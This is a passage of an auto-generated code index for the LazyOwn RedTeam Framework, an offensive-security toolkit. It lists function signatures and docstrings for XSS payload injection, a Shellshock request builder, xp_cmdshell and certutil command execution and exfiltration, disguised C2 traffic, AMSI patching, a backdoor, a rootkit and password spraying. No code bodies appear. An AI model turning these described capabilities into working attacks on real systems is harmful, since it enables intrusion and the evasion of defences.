https://github.com/justakazh/sicat/", "kind": "function", "line": 848, "name": "exploitalert", "signature": "def exploitalert(content)"}, {"doc": "Process and display results from PacketStorm Security.\n\nThis function extracts exploit data from the provided content using regex.\nIf any results are found, it prints the title and link for each exploit,\nand appends the results to a predata list. If no results are found,\nit prints an error message.\n\nParameters:\n- content (str): The HTML content from PacketStorm Security.\n\nReturns:\nNone\nThanks to Sicat 🐈\nAn excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/", "kind": "function", "line": 887, "name": "packetstormsecurity", "signature": "def packetstormsecurity(content)"}, {"doc": "Process and display results from the National Vulnerability Database.\n\nThis function checks if there are any vulnerabilities in the provided content.\nIf vulnerabilities are present, it prints the ID, description, and link\nfor each CVE found, and appends the results to a predata list.\nIf no results are found, it prints an error message.\n\nParameters:\n- content (dict): A dictionary containing vulnerability data.\n\nReturns:\nNone\nThanks to Sicat 🐈\nAn excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/", "kind": "function", "line": 925, "name": "nvddb", "signature": "def nvddb(content)"}, {"doc": "Find CVEs in the National Vulnerability Database based on a keyword.\n\nThis function takes a keyword, formats it for the API request,\nand sends a GET request to the NVD API. If the request is successful,\nit returns the JSON response containing CVE data; otherwise,\nit returns False.\n\nParameters:\n- keyword (str): The keyword to search for in CVEs.\n\nReturns:\n- dict or bool: The JSON response containing CVE data or False on failure.\nThanks to Sicat 🐈\nAn excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/", "kind": "function", "line": 971, "name": "find_ss", "signature": "def find_ss(keyword)"}, {"doc": "Find exploits in ExploitAlert based on a keyword.\n\nThis function takes a keyword, formats it for the API request,\nand sends a GET request to the ExploitAlert API. If the request is successful,\nit returns the JSON response containing exploit data; otherwise,\nit returns False.\n\nParameters:\n- keyword (str): The keyword to search for exploits.\n\nReturns:\n- dict or bool: The JSON response containing exploit data or False on failure.\nThanks to Sicat 🐈\nAn excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/", "kind": "function", "line": 1033, "name": "find_ea", "signature": "def find_ea(keyword)"}, {"doc": "Find exploits in PacketStorm Security based on a keyword.\n\nThis function takes a keyword, formats it for the search request,\nand sends a GET request to the PacketStorm Security website.\nIf the request is successful, it returns the HTML response; otherwise,\nit returns False.\n\nParameters:\n- keyword (str): The keyword to search for exploits.\n\nReturns:\n- str or bool: The HTML response containing exploit data or False on failure.\nThanks to Sicat 🐈\nAn excellent tool for CVE detection, I implemented only the keyword search as I had to change some libraries. Soon also for XML generated by nmap :) Total thanks to justakazh. https://github.com/justakazh/sicat/", "kind": "function", "line": 1083, "name": "find_ps", "signature": "def find_ps(keyword)"}, {"doc": "Executes a shell command using the subprocess module, capturing its output.\n\nParameters:\ncommand (str): The command to execute.\n\nReturns:\nstr: The output of the command if successful, or an error message if an exception occurs.\n\nExceptions:\n- FileNotFoundError: Raised if the command is not found.\n- subprocess.CalledProcessError: Raised if the command exits with a non-zero status.\n- subprocess.TimeoutExpired: Raised if the command times out.\n- Exception: Catches any other unexpected exceptions.\n\nExample:\noutput = run(\"ls -la\")\nprint(output)\n\nAdditional Notes:\nThe function attempts to execute the provided command, capturing its output.\nIt also handles common exceptions that may occur during command execution.\nSecrets in the command line are redacted from console output.", "kind": "function", "line": 1115, "name": "run", "signature": "def run(command)"}, {"doc": "Check if a file exists.\n\nThis function checks whether a given file exists on the filesystem. If the file\ndoes not exist, it prints an error message and returns False. Otherwise, it returns True.\n\nArguments:\nfile (str): The path to the file that needs to be checked.\n\nReturns:\nbool: Returns True if the file exists, False otherwise.\n\nExample:\n>>> is_exist('/path/to/file.txt')\nTrue\n>>> is_exist('/non/existent/file.txt')\nFalse\n\nNotes:\nThis function uses os.path.isfile to determine the existence of the file.\nEnsure that the provided path is correct and accessible.", "kind": "function", "line": 1174, "name": "is_exist", "signature": "def is_exist(file)"}, {"doc": "Extracts the domain from a given URL.\n\nParameters:\nurl (str): The full URL from which to extract the domain.\n\nReturns:\nstr: The extracted domain from the URL, or None if it cannot be extracted.", "kind": "function", "line": 1203, "name": "get_domain", "signature": "def get_domain(url)"}, {"doc": "Generate a random CVE identifier in the form CVE-{year}-{code}.\n\nReturns:\n    str: A randomly generated CVE ID between 2020-2024 and 1000-9999.", "kind": "function", "line": 1220, "name": "generate_random_cve_id", "signature": "def generate_random_cve_id()"}, {"doc": "Generates a certificate authority (CA), client certificate, and client key.\n\nReturns:\n    str: Paths to the generated CA certificate, client certificate, and client key.", "kind": "function", "line": 1232, "name": "generate_certificates", "signature": "def generate_certificates()"}, {"doc": "Generate email permutations based on the provided full name and domain.\n\nThis function takes a full name and domain as input, splits the full name into\ncomponents, and creates a list of potential email addresses.\n\nParameters:\nfull_name (str): The full name to base the email addresses on.\ndomain (str): The domain to use for the generated email addresses.\n\nInternal Variables:\nnames (list): A list of the name components extracted from the full name.\nfirst_name (str): The first name component.\nlast_name (str): The last name component.\nfirst_initial (str): The first initial of the first name.\nlast_initial (str): The first initial of the last name.\n\nReturns:\nlist: A list of generated email permutations.\n\nNote:\n- At least two parts of the name are required to generate valid email addresses.", "kind": "function", "line": 1315, "name": "generate_emails", "signature": "def generate_emails(full_name, domain)"}, {"doc": "Checks if the last character is a slash and removes it if so.", "kind": "function", "line": 1375, "name": "clean_url", "signature": "def clean_url(host)"}, {"doc": "Generates a random alphanumeric string.", "kind": "function", "line": 1382, "name": "random_string", "signature": "def random_string(length)"}, {"doc": "Generates an HTTP request with the Shellshock payload.", "kind": "function", "line": 1388, "name": "generate_http_req", "signature": "def generate_http_req(host, port, uri, custom_header, cmd)"}, {"doc": "Formats a raw OpenSSH private key string to the correct OpenSSH format.\n\nThis function takes a raw OpenSSH private key string, cleans it by removing any unnecessary\ncharacters (such as newlines, spaces, and headers/footers), splits the key content into lines\nof 64 characters, and then reassembles the key with the standard OpenSSH header and footer.\nIt ensures the key follows the correct OpenSSH format.\n\nParameters:\n    raw_key (str): The raw OpenSSH private key string to format.\n\nReturns:\n    str: The formatted OpenSSH private key with proper headers, footers, and 64-character lines.", "kind": "function", "line": 1412, "name": "format_openssh_key", "signature": "def format_openssh_key(raw_key)"}, {"doc": "Formats a raw RSA private key string to the correct PEM format.\n\nThis function takes a raw RSA private key string, cleans it by removing any unnecessary\ncharacters (such as newlines, spaces, and headers/footers), splits the key content into lines\nof 64 characters, and then reassembles the key with the standard PEM header and footer.\nIt ensures the key follows the correct RSA format.\n\nParameters:\n    raw_key (str): The raw RSA private key string to format.\n\nReturns:\n    str: The formatted RSA private key with proper headers, footers, and 64-character lines.", "kind": "function", "line": 1444, "name": "format_rsa_key", "signature": "def format_rsa_key(raw_key)"}, {"doc": "Check if a Python package is installed.\n\n:param package_name: Name of the package to check.\n:returns: True if installed, False otherwise.", "kind": "function", "line": 1475, "name": "is_package_installed", "signature": "def is_package_installed(package_name)"}, {"doc": "Extracts and processes specific hexadecimal sequences from a string based on a flag.\n\nIf the `extract_flag` is set to True, the function extracts all sequences of the form 'x[a-f0-9][a-f0-9]'\n(where 'x' is followed by two hexadecimal digits), removes the 'x' from the extracted sequences,\nand returns the processed string. If `extract_flag` is False, the function returns the original string.\n\nParameters:\n    string (str): The input string from which hexadecimal sequences are to be extracted.\n    extract_flag (bool): A flag indicating whether to perform the extraction (True) or not (False).\n\nReturns:\n    str: The processed string with the extracted hexadecimal sequences if `extract_flag` is True,\n         or the original string if `extract_flag` is False.", "kind": "function", "line": 1486, "name": "extract", "signature": "def extract(string, extract_flag)"}, {"doc": "Remove HTML tags from a string.\n\nThis function uses a regular expression to strip HTML tags and return plain text.\n\n:param html_string: A string containing HTML content.\n:returns: A cleaned string with HTML tags removed.", "kind": "function", "line": 1510, "name": "clean_html", "signature": "def clean_html(html_string)"}, {"doc": "Searches for credential files with the pattern 'credentials*.txt' and allows the user to select one.\n\nThe function lists all matching files and prompts the user to select one. It then reads the selected file\nand returns a list of tuples with the format (username, password) for each line in the file.\n\nParameters:\nncred (int, optional): If provided, automatically selects the credential file with the given number.\n\nReturns:\nlist of tuples: A list containing tuples with (username, password) for each credential found in the file.\n                If no files are found or an invalid selection is made, an empty list is returned.", "kind": "function", "line": 1537, "name": "get_credentials", "signature": "def get_credentials(file, ncred)"}, {"doc": "Obfuscates a payload string by converting its characters into hexadecimal format,\nwith additional comments for every third character.\n\nFor every character in the payload, the function converts it to its hexadecimal representation.\nEvery third character (after the first) is enclosed in a comment `/*hex_value*/`, while the rest\nare prefixed with `\\x`.\n\nParameters:\n    payload (str): The input string that needs to be obfuscated.\n\nReturns:\n    str: The obfuscated string where characters are replaced by their hexadecimal representations,\n         with every third character wrapped in a comment.", "kind": "function", "line": 1593, "name": "obfuscate_payload", "signature": "def obfuscate_payload(payload)"}, {"doc": "Reads a file containing payloads and returns a list of properly formatted strings.\n\nThis function opens a specified file, reads each line, and checks if the line starts with a\ndouble quote. If it does not, it adds double quotes around the line. Each line is stripped\nof leading and trailing whitespace before being added to the list.\n\nParameters:\n    file_path (str): The path to the file containing payloads.\n\nReturns:\n    list: A list of strings, each representing a payload from the file, formatted with\n          leading and trailing double quotes if necessary.", "kind": "function", "line": 1618, "name": "read_payloads", "signature": "def read_payloads(file_path)"}, {"doc": "Sends HTTP requests to a list of URLs with injected payloads for testing XSS vulnerabilities.\n\nThis function reads payloads from a specified file and sends GET requests to the provided URLs,\ninjecting obfuscated payloads into the query parameters or form fields to test for cross-site\nscripting (XSS) vulnerabilities. It handles both URLs with existing query parameters and those\nwithout. If forms are found in the response, it submits them with the payloads as well.\n\nParameters:\n    urls (list): A list of URLs to test for XSS vulnerabilities.\n    payload_url (str): A placeholder string within the payloads that will be replaced with\n                       the actual URL for testing.\n    request_timeout (int, optional): The timeout for each request in seconds. Defaults to 15.\n\nReturns:\n    None: This function does not return any value but prints the status of each request and\n          form submission to the console.\n\nRaises:\n    requests.RequestException: Raises an exception if any HTTP request fails, which is handled\n                               by printing a warning message.", "kind": "function", "line": 1640, "name": "inject_payloads", "signature": "def inject_payloads(urls, payload_url, request_timeout)"}, {"doc": "Return the prompt in the function do_xss", "kind": "function", "line": 1740, "name": "prompt", "signature": "def prompt(label, default)"}, {"doc": "Adds a delimiter between string parts if it's not the first part.\n\nParameters:\n    str_part (str): The string part to add.\n    delimiter (str): The delimiter to insert between parts.\n    i (int): The index of the part.\n\nReturns:\n    str: The string part with delimiter if applicable.", "kind": "function", "line": 1748, "name": "add", "signature": "def add(str_part, delimiter, i)"}, {"doc": "Detects the delimiter used in the input string (e.g., \"-\", \"_\", \".\").\n\nParameters:\n    foo_bar (str): The input string.\n\nReturns:\n    str: The detected delimiter.", "kind": "function", "line": 1765, "name": "detect_delimiter", "signature": "def detect_delimiter(foo_bar)"}, {"doc": "Transforms a list of string parts based on the chosen casing style.\n\nParameters:\n    parts (list): List of string parts.\n    delimiter (str): Delimiter to use between parts.\n    casing (str): Casing style ('l', 'u', 'c', 'p').\n\nReturns:\n    str: The transformed string.", "kind": "function", "line": 1784, "name": "transform", "signature": "def transform(parts, delimiter, casing)"}, {"doc": "Splits the input string into parts based on delimiters or mixed casing.\n\nParameters:\n    input_str (str): The input string to split.\n\nReturns:\n    list: A list of string parts.", "kind": "function", "line": 1814, "name": "handle", "signature": "def handle(input_str)"}, {"doc": "List all .txt files in the 'sessions/' directory and prompt the user to select one by number.\n\n:returns: The path of the selected .txt file.", "kind": "function", "line": 1844, "name": "get_users_dic", "signature": "def get_users_dic(txt)"}, {"doc": "Searches for hash files with the pattern 'hash*.txt' and allows the user to select one.\n\nThe function lists all matching files and prompts the user to select one. It then reads the selected file\nand returns the hash content as a single string, without any newline characters or extra formatting.\n\nReturns:\nstr: The hash content from the selected file as a single string. If no files are found or an invalid\n     selection is made, an empty string is returned.", "kind": "function", "line": 1879, "name": "get_hash", "signature": "def get_hash(dir)"}, {"doc": "Check if the given character is a digit.\n\nArgs:\n    the_digit (str): The character to check.\n\nReturns:\n    bool: True if the character is a digit, False otherwise.", "kind": "function", "line": 1920, "name": "is_digit", "signature": "def is_digit(the_digit)"}, {"doc": "Crack a Cisco Type 7 password.\n\nArgs:\n    crypttext (str): The encrypted password in Type 7 format.\n\nReturns:\n    str: The cracked plaintext password or an empty string if invalid.", "kind": "function", "line": 1932, "name": "crack_password", "signature": "def crack_password(crypttext)"}, {"kind": "function", "line": 1972, "name": "get_terminal_size", "signature": "def get_terminal_size()"}, {"doc": "Display the help panel for the LazyOwn RedTeam Framework.\n\nThis function prints usage instructions, options, and descriptions for\nrunning the LazyOwn framework. It provides users with an overview of\ncommand-line options that can be used when executing the `./run` command.\n\nThe output includes the current version of the framework and various\noptions available for users, along with a brief description of each option.\n\nOptions include:\n    - `--help`: Displays the help panel.\n    - `-v`: Shows the version of the framework.\n    - `-p <payloadN.json>`: Executes the framework with a specified payload\n      JSON file. This option is particularly useful for Red Teams.\n    - `-c <command>`: Executes a specific command using LazyOwn, for\n      example, `ping`.\n    - `--no-banner`: Runs the framework without displaying the banner.\n    - `-s`: Runs the framework with root privileges.\n    - `--old-banner`: Displays the old banner.\n\nExample:\n    To see the help panel, call the function as follows:\n\n    >>> halp()\n\nNote:\n    - This function exits the program after displaying the help information,\n      using `sys.exit(0)`.", "kind": "function", "line": 1981, "name": "halp", "signature": "def halp()"}, {"doc": "Ensure that a tmux session is active.\n\nThis function checks whether a specified tmux session is currently running.\nIf the session does not exist, it creates a new tmux session with the specified\nname and executes the command to run the LazyOwn RedTeam Framework script.\n\nThe function uses the `tmux has-session` command to check for the existence\nof the session. If the session is not found (i.e., the return code is not zero),\nit will create a new tmux session in detached mode and run the command\n`./run --no-banner` within that session.\n\nArgs:\n    session_name (str): The name of the tmux session to check or create.\n\nExample:\n    To ensure that a tmux session named 'lazyown_sessions' is active,\n    call the function as follows:\n\n    >>> ensure_tmux_session('lazyown_sessions')\n\nNote:\n    - Ensure that tmux is installed and properly configured on the system.\n    - The command executed within the tmux session must be valid and\n      accessible in the current environment.", "kind": "function", "line": 2036, "name": "ensure_tmux_session", "signature": "def ensure_tmux_session(session_name)"}, {"doc": "Retrieves a list of XML files from the specified directory.\n\nArgs:\n    directory (str): The directory to search for XML files.\n\nReturns:\n    list: A list of XML filenames found in the specified directory.", "kind": "function", "line": 2072, "name": "get_xml", "signature": "def get_xml(directory)"}, {"doc": "Extracts the first domain or IP address from an Nmap scan XML file.", "kind": "function", "line": 2085, "name": "get_domain_from_xml", "signature": "def get_domain_from_xml(xml_file)"}, {"kind": "function", "line": 2115, "name": "shellcode_to_sylk", "signature": "def shellcode_to_sylk(shellcode_path)"}, {"kind": "function", "line": 2140, "name": "get_banner", "signature": "def get_banner(ip, port)"}, {"doc": "List all executable binaries in the specified directory.\n\nParameters:\ndirectory (str): The directory to search for binaries. Defaults to 'sessions'.\n\nReturns:\nlist: A list of paths to executable binaries.", "kind": "function", "line": 2157, "name": "list_binaries", "signature": "def list_binaries(directory)"}, {"doc": "Prompt the user to select a binary from a list.\n\nParameters:\nbinaries (list): A list of binary paths.\n\nReturns:\nstr: The path of the selected binary.", "kind": "function", "line": 2177, "name": "select_binary", "signature": "def select_binary(binaries)"}, {"doc": "Decodes base64 data received from the server output.\n\nParameters:\ndata (str): Encoded base64 data from the server.\n\nReturns:\nstr: Decoded string output, or an error message if decoding fails.", "kind": "function", "line": 2202, "name": "decode", "signature": "def decode(data)"}, {"doc": "Reads a command from standard input and initiates a thread to send the command to the target server.", "kind": "function", "line": 2220, "name": "get_command", "signature": "def get_command(url, lhost)"}, {"doc": "Constructs and sends an SQL payload with xp_cmdshell and certutil for command execution and exfiltration.\n\nParameters:\ncmd (str): Command to be executed on the remote MSSQL server.", "kind": "function", "line": 2231, "name": "send_command", "signature": "def send_command(cmd, url, lhost)"}, {"doc": "Activates the HTTP server and fetches the first command from the user.\n\nParameters:\nhttpd (HTTPServer): The server instance to activate.", "kind": "function", "line": 2259, "name": "activate_server", "signature": "def activate_server(httpd, url, lhost)"}, {"kind": "function", "line": 2270, "name": "Spray", "signature": "def Spray(domain, users, password, target_url, wait, verbose, more_verbose)"}, {"kind": "function", "line": 2317, "name": "ProcessResults", "signature": "def ProcessResults(results, outfile)"}, {"doc": "Generates an APT repository structure and index files for proper compatibility.\n\nParameters:\nrepo_dir (str): Path to the repository directory.\n\nReturns:\nNone", "kind": "function", "line": 2332, "name": "generate_index", "signature": "def generate_index(repo_dir)"}, {"doc": "Replace variables in a command string with their corresponding values.\n\nThis function takes a command string and a dictionary of variables and their values.\nIt replaces each occurrence of a variable in the command string with its corresponding value.\n\nArgs:\n    command (str): The command string containing variables to be replaced.\n    variables (dict): A dictionary where the keys are the variables to be replaced\n                      and the values are the corresponding values to replace them with.\n\nReturns:\n    str: The command string with all variables replaced by their corresponding values.", "kind": "function", "line": 2382, "name": "replace_variables", "signature": "def replace_variables(command, variables)"}, {"doc": "Creates a Caldera configuration file with the specified content at the given file path.\n\nParameters:\nfile_path (str): The path where the configuration file will be created.\n\nReturns:\nNone", "kind": "function", "line": 2403, "name": "create_caldera_config", "signature": "def create_caldera_config(file_path)"}, {"doc": "Extract banner information from an XML file.\n\nThis function parses an XML file and extracts banner information for each host and port.\nThe banner information includes the hostname, port, protocol, extra details, and service.\n\nArgs:\n    xml_file (str): The path to the XML file to be parsed.\n\nReturns:\n    list: A list of dictionaries, where each dictionary contains banner information for a specific host and port.\n          Each dictionary has the following keys:\n            - hostname (str): The hostname of the host.\n            - port (str): The port number.\n            - protocol (str): The protocol used (e.g., tcp, udp).\n            - banner (str): Extra information about the service.\n            - service (str): The name of the service running on the port.\n\nExample:\n    banners = extract_banners('path/to/file.xml')", "kind": "function", "line": 2499, "name": "extract_banners", "signature": "def extract_banners(xml_file)"}, {"doc": "Makes a request to the Hacker News page and extracts titles, links, and scores.\n\nReturns:\n    tuple: Three lists containing the titles, links and scores of the news items respectively.", "kind": "function", "line": 2548, "name": "scrape_news", "signature": "def scrape_news()"}, {"doc": "Creates a pandas DataFrame and prints it, showing titles, links, and scores.\n\nArgs:\n    titles (list): List of news titles.\n    links (list): List of news links.\n    scores (list): List of news scores.", "kind": "function", "line": 2583, "name": "display_news", "signature": "def display_news(titles, links, scores)"}, {"doc": "Wrap C2 comms in html and html2 code to make requests look more legitimate", "kind": "function", "line": 2597, "name": "htmlify", "signature": "def htmlify(data)"}, {"doc": "Cleant wrap C2 comms of html and html2 code to get the command from request", "kind": "function", "line": 2608, "name": "de_htmlify", "signature": "def de_htmlify(data)"}, {"kind": "function", "line": 2620, "name": "is_port_in_use", "signature": "def is_port_in_use(port, host)"}, {"kind": "function", "line": 2629, "name": "return_creds", "signature": "def return_creds()"}, {"doc": "Queries ARIN whois API for organization information of an IP address.\n\nArgs:\n    ip: The IP address to query.\n\nReturns:\n    A dictionary containing IP information or None on failure.", "kind": "function", "line": 2643, "name": "query_arin_ip", "signature": "def query_arin_ip(ip)"}, {"doc": "Extracts organization name from ARIN whois response data.\n\nArgs:\n    data: The JSON data from the ARIN whois API response.\n\nReturns:\n    The organization name or \"null\" if not found.", "kind": "function", "line": 2662, "name": "get_org", "signature": "def get_org(data)"}, {"kind": "function", "line": 2679, "name": "load_adversary", "signature": "def load_adversary()"}, {"doc": "Replace placeholders in a template string with values from a dictionary.\n\nSingle-pass delegation to replace_command_placeholders: substituted\nvalues are never re-scanned, so a value that looks like a placeholder\nstays literal instead of triggering a second substitution.\n\nParameters:\n    template (str): The template string containing placeholders.\n    replacements (dict): A dictionary where keys are placeholders and values are replacements.\n\nReturns:\n    str: The template string with placeholders replaced.", "kind": "function", "line": 2685, "name": "replace_placeholders", "signature": "def replace_placeholders(template, replacements)"}, {"doc": "Replace placeholders in a command string with values from a params dictionary.\n\nSupports both single-brace ``{key}`` and double-brace ``{{key}}`` placeholder\nsyntax, with optional whitespace inside the braces (``{ key }``). Addons are\ndocumented to emit ``{{key}}`` (see ``modules/yaml_generator.py``). Unknown\nkeys are left intact so an unresolved placeholder is easy to spot.\n\nArgs:\n    command (str): The command string containing placeholders.\n    params (dict): A dictionary containing key-value pairs for replacement.\n\nReturns:\n    str: The command string with placeholders replaced by their corresponding values.", "kind": "function", "line": 2703, "name": "replace_command_placeholders", "signature": "def replace_command_placeholders(command, params)"}, {"kind": "function", "line": 2729, "name": "parse_nmap_csv", "signature": "def parse_nmap_csv(csv_path)"}, {"doc": "Sends query to Ollama and returns model response.", "kind": "function", "line": 2743, "name": "query_ollama", "signature": "def query_ollama(prompt, model)"}, {"doc": "Pre-process LLM response to handle common issues before YAML parsing", "kind": "function", "line": 2758, "name": "preprocess_llm_response", "signature": "def preprocess_llm_response(response)"}, {"doc": "Fallback method to manually extract YAML data from malformed content", "kind": "function", "line": 2793, "name": "manual_yaml_extraction", "signature": "def manual_yaml_extraction(content)"}, {"doc": "Create a basic synthetic YAML playbook when all else fails", "kind": "function", "line": 2859, "name": "create_synthetic_yaml", "signature": "def create_synthetic_yaml(nmap_services)"}, {"doc": "Improved function to extract and parse YAML content from LLM response\nwith better error handling and recovery attempts", "kind": "function", "line": 2932, "name": "parse_yaml_response", "signature": "def parse_yaml_response(content)"}, {"doc": "Fixes common YAML formatting issues", "kind": "function", "line": 2967, "name": "fix_common_yaml_issues", "signature": "def fix_common_yaml_issues(yaml_content)"}, {"doc": "More aggressive YAML fixing for recovery attempts", "kind": "function", "line": 3007, "name": "aggressive_yaml_fix", "signature": "def aggressive_yaml_fix(yaml_content)"}, {"doc": "Guarda el playbook generado en disco", "kind": "function", "line": 3038, "name": "save_playbook", "signature": "def save_playbook(playbook_data, playbook_name)"}, {"doc": "Carga la base de conocimientos personalizada.", "kind": "function", "line": 3050, "name": "load_knowledge_base", "signature": "def load_knowledge_base(knowledge_file)"}, {"kind": "function", "line": 3058, "name": "anti_debug", "signature": "def anti_debug()"}, {"kind": "function", "line": 3067, "name": "create_msfshellcoder_parser", "signature": "def create_msfshellcoder_parser()"}, {"doc": "Carga los aliases del archivo JSON si existe.", "kind": "function", "line": 3087, "name": "load_user_aliases", "signature": "def load_user_aliases()"}, {"doc": "Custom HTTP server to handle incoming connections from certutil.", "kind": "class", "line": 3099, "name": "MyServer", "signature": "class MyServer(HTTPServer)"}, {"doc": "Custom HTTP request handler to intercept and decode GET requests from certutil.", "kind": "class", "line": 3107, "name": "SimpleHTTPRequestHandler", "signature": "class SimpleHTTPRequestHandler(BaseHTTPRequestHandler)"}, {"kind": "class", "line": 3137, "name": "IP2ASN", "signature": "class IP2ASN"}, {"doc": "Search the NVD for CVEs matching a service banner and persist results.\n\nThe scanner exposes three orthogonal capabilities:\n\n1. :meth:`search_cves` queries the NVD keyword API and enriches each\n   record with CVSS data scraped from cvedetails.com.\n2. :meth:`persist` writes a JSON document under ``sessions/`` so\n   downstream consumers (reactive_engine, FactStore, the report\n   generator) can read structured findings without re-scanning.\n3. :meth:`pretty_print` renders a human-readable summary in the\n   operator shell.\n\nSide-effects are bounded to the configured sessions directory.\nNetwork access uses a configurable User-Agent so the framework\navoids hardcoded browser strings duplicated across modules.", "kind": "class", "line": 3226, "name": "VulnerabilityScanner", "signature": "class VulnerabilityScanner"}, {"doc": "Build the CLI argument parser for LazyOwn startup flags.", "kind": "function", "line": 3403, "name": "_build_startup_parser", "signature": "def _build_startup_parser()"}, {"kind": "function", "line": 1142, "name": "_redact", "signature": "def _redact(text)"}, {"kind": "function", "line": 1665, "name": "send_request", "signature": "def send_request(raw_url)"}, {"kind": "function", "line": 1702, "name": "handle_forms", "signature": "def handle_forms(content, url)"}, {"kind": "function", "line": 2721, "name": "replace_match", "signature": "def replace_match(match)"}, {"kind": "method", "line": 3112, "name": "log_request", "signature": "def log_request(self)"}, {"kind": "method", "line": 3115, "name": "log_message", "signature": "def log_message(self)"}, {"doc": "Serve certutil callback using centralized payload config.", "kind": "method", "line": 3118, "name": "do_GET", "signature": "def do_GET(self)"}, {"kind": "method", "line": 3138, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Open and parse the IP-to-ASN file.", "kind": "method", "line": 3143, "name": "open_file", "signature": "def open_file(self, filename)"}, {"doc": "Parse the reader stream, handling both regular and gzipped files.", "kind": "method", "line": 3148, "name": "open_reader", "signature": "def open_reader(self, reader)"}, {"doc": "Parse the TSV data and load it into memory.", "kind": "method", "line": 3158, "name": "_parse_file", "signature": "def _parse_file(self, reader)"}, {"doc": "Return the ASN associated with the given IP address.", "kind": "method", "line": 3188, "name": "as_of_ip", "signature": "def as_of_ip(self, ip)"}, {"doc": "Check if the given index contains the IP.", "kind": "method", "line": 3194, "name": "_rec_index_has_ip", "signature": "def _rec_index_has_ip(self, idx, ip)"}, {"doc": "Get the AS name by ASN.", "kind": "method", "line": 3203, "name": "as_name", "signature": "def as_name(self, asn)"}, {"doc": "Get the country by ASN.", "kind": "method", "line": 3207, "name": "as_country", "signature": "def as_country(self, asn)"}, {"doc": "Initialize the scanner with configurable network and storage knobs.\n\nArgs:\n    user_agent: HTTP ``User-Agent`` header sent to the NVD and\n        cvedetails.com. When ``None`` the default desktop UA is\n        used so every NVD request remains identifiable.\n    max_workers: Upper bound on concurrent cvedetails enrichment\n        requests. Higher values shorten wall-clock time at the\n        cost of being rate-limited.\n    sessions_dir: Directory where JSON reports are persisted.\n        Defaults to ``<cwd>/sessions``.\n    description_language: ISO 639-1 language code used to pick\n        the human-readable CVE description from the NVD payload.", "kind": "method", "line": 3244, "name": "__init__", "signature": "def __init__(self, user_agent, max_workers, sessions_dir, description_language)"}, {"doc": "Return CVE records matching the supplied service banner.\n\nEach record contains ``cve_id``, ``description``, ``cvss`` and\n``url`` keys. CVSS data is fetched concurrently from\ncvedetails.com using a bounded thread pool.\n\nArgs:\n    service: The service banner or keyword to query (for\n        example ``\"ProFTPD 1.3.5\"``).\n\nReturns:\n    A list of CVE dictionaries. Empty when the upstream API is\n    unreachable or returns no matches.", "kind": "method", "line": 3270, "name": "search_cves", "signature": "def search_cves(self, service)"}, {"doc": "Populate ``cvss`` for an in-place CVE record from cvedetails.com.\n\nArgs:\n    cve_info: A CVE record produced by :meth:`search_cves`. The\n        record is mutated in place. Network or parsing errors\n        are swallowed so a single failure does not abort the\n        pool.", "kind": "method", "line": 3319, "name": "_enrich_cve", "signature": "def _enrich_cve(self, cve_info)"}, {"doc": "Persist ``cves`` to ``sessions/vulns_<target>.json``.\n\nThe schema is intentionally stable so reactive engines and\nreport generators can rely on the field names without\nre-deriving them from CLI output. When the file already exists\nthe latest report supersedes the previous one — callers that\nneed history should retain the prior file out of band.\n\nArgs:\n    service: The original service banner that produced the\n        findings. Stored under ``service`` so consumers can\n        attribute results to a recon step.\n    target: The target identifier (typically ``rhost``). Used\n        both as the filename component and the ``target`` field.\n    cves: The CVE records returned by :meth:`search_cves`.\n\nReturns:\n    The absolute path of the JSON document written.", "kind": "method", "line": 3340, "name": "persist", "signature": "def persist(self, service, target, cves)"}, {"doc": "Render ``cves_details`` as semicolon-separated rows in the shell.\n\nSorts the records by ascending CVSS so the operator sees the\nlowest-impact rows first and the most dangerous CVEs sit at the\nbottom of the scroll buffer, closest to the prompt.\n\nArgs:\n    cves_details: CVE records produced by :meth:`search_cves`.", "kind": "method", "line": 3377, "name": "pretty_print", "signature": "def pretty_print(self, cves_details)"}, {"kind": "function", "line": 3390, "name": "_cvss_sort_key", "signature": "def _cvss_sort_key(record)"}]}], "type": "CodePropertyGraph", "version": "1.0"}
```

---

## Architecture Reference

### ASM (1 files)

#### `rootkit.asm`
**Path:** `modules/rootkit/rootkit.asm`

**Functions:**
- `_start` (line 4)

### C (15 files)

#### `amsi.c`
**Path:** `modules/amsi.c`
**File Doc:** *¡Gracias a Saad!*

**Functions:**
- `LoadNtFunctions` (line 38) `void LoadNtFunctions()` - *Función para cargar las funciones dinámicamente*
- `AMS1patch_OpenSession_jne` (line 66) `void AMS1patch_OpenSession_jne(HANDLE hproc)` - *Técnica de Saad, también conocido como @D1rkMtr (https://twitter.com/D1rkMtr/) (https://github.com/TheD1rkMtr/AMSI_patch) 1*
- `AMS1patch_OpenSession_ret` (line 116) `void AMS1patch_OpenSession_ret(HANDLE hproc)` - *2*
- `AMS1patch_ScanBuffer_ret` (line 166) `void AMS1patch_ScanBuffer_ret(HANDLE hproc)` - *3*
- `AMS1patch_RastaMouse` (line 215) `void AMS1patch_RastaMouse(HANDLE hproc)` - *4*
- `AMS1patch_E_ACCESSDENIED` (line 274) `void AMS1patch_E_ACCESSDENIED(HANDLE hproc)` - *5*
- `AMS1patch_E_HANDLE` (line 326) `void AMS1patch_E_HANDLE(HANDLE hproc)` - *6*
- `AMS1patch_E_OUTOFMEMORY` (line 378) `void AMS1patch_E_OUTOFMEMORY(HANDLE hproc)` - *7*
- `main` (line 428) `int main(int argc, char** argv)`

**Macros:**
- `NT_SUCCESS` (line 11) `#define NT_SUCCESS(Status)`

#### `backdoor.c`
**Path:** `modules/backdoor/backdoor.c`

**Functions:**
- `bootRun` (line 18) `int bootRun()`
- `str_cut` (line 49) `char *
str_cut(char str[], int slice_from, int slice_to)`
- `Shell` (line 84) `void Shell()`
- `WinMain` (line 125) `int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow)`

**Macros:**
- `bzero` (line 14) `#define bzero(p, size)`

#### `server.c`
**Path:** `modules/backdoor/server.c`

**Functions:**
- `main` (line 10) `int main()`

#### `exp.c`
**Path:** `modules/exp.c`
